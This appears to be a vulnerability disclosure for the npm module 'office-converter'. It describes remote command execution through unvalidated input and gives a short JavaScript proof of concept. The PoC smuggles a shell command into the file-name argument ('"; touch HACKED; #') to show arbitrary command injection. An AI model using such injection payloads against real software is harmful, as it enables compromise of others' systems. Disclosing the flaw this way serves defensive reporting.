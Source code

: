 # Description

The `office-converter` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var converter = require('office-converter')();
converter.generatePdf('"; touch HACKED; #', function(err, result) {
    if (result.status === 0) {
      console.log('Output File located at ' + result.outputFile);
    }
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i office-converter # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
